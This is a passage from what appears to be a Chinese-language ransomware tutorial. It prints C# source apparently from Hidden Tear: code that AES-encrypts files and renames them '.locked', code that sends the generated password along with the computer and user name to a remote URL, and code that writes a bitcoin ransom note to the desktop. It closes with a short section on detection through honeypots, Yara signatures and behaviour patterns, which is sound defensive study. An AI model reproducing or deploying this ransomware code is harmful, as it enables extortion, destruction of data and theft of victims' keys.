 ```csharp=
    passwordBytes = SHA256.Create().ComputeHash(passwordBytes);
    byte[] bytesEncrypted = AES_Encrypt(bytesToBeEncrypted, passwordBytes);
    
    // 加密後覆蓋檔案並添增副檔名 .locked
    File.WriteAllBytes(file, bytesEncrypted);
    System.IO.File.Move(file, file+".locked");
}
```


#### 把加密的 Key 送到指定的機器
```csharp=
// 用亂數取 length 個字元當作 password
public string CreatePassword(int length) {
    const string valid = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890*!=&?&/";
    StringBuilder res = new StringBuilder();
    Random rnd = new Random();
    while (0 < length--){
        res.Append(valid[rnd.Next(valid.Length)]);
    }
    return res.ToString();
}

// 這邊傳送的是 password，而不是 AES 的 key
public void SendPassword(string password) {        
    string info = computerName + "-" + userName + " " + password;
    var fullUrl = targetURL + info;
    var conent = new System.Net.WebClient().DownloadString(fullUrl);
}
```

#### 存放繳交贖金訊息的文字檔
```csharp=
// 在桌面建立 READ_IT.txt 檔案存放勒索訊息
public void messageCreator() {
    string path = "\\Desktop\\test\\READ_IT.txt";
    string fullpath = userDir + userName + path;
    string[] lines = { "Files has been encrypted with hidden tear", "Send me some bitcoins or kebab", "And I also hate night clubs, desserts, being drunk." };
    System.IO.File.WriteAllLines(fullpath, lines);
}
```

## 偵測
### Honey Pot
放個模擬真實環境的機器，讓惡意程式以為這是它的目標。用這個方式蒐集惡意程式的檔案資訊或行為 Pattern 等。

### Yara
透過檔案的 Signature 確認這個檔案是不是已存在的勒索軟體，不過這種方法是建立在有龐大的資料庫的前提下。

### 行為 Pattern
根據程式執行中所做的行為判斷是不是惡意程式，例如大量改寫檔案，甚至有試圖改寫目前正在執行的執行檔。不過這個需要足夠的證據去證明目前執行的是一個惡意程式，因為可能有些合法的軟體也會有大量寫檔案的情形。
